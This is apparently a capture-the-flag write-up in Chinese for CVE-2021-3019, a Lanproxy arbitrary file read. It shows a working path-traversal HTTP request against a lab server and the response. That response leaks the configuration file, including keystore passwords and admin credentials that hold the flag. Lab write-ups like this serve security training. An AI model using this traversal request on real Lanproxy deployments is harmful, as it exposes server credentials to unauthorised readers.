 # lanproxy_cve-2021-3019

根据 `CVE-2021-3019 Lanproxy 任意文件读取漏洞`  读取配置文件获取 FLAG

### Request

```http
GET /../conf/config.properties HTTP/1.1
Host: 192.168.195.134:32805
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Response

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Server: LPS-0.1
Content-Length: 369

server.bind=0.0.0.0
server.port=4900

server.ssl.enable=true
server.ssl.bind=0.0.0.0
server.ssl.port=4993
server.ssl.jksPath=test.jks
server.ssl.keystorePassword=123456
server.ssl.keyManagerPassword=123456
server.ssl.needsclientAuth=false

config.server.bind=0.0.0.0
config.server.port=8090
config.admin.username=FLAG
config.admin.password=flag{GZCTF_dynamic_flag_test}
```


![获取flag](assets/获取flag.png)

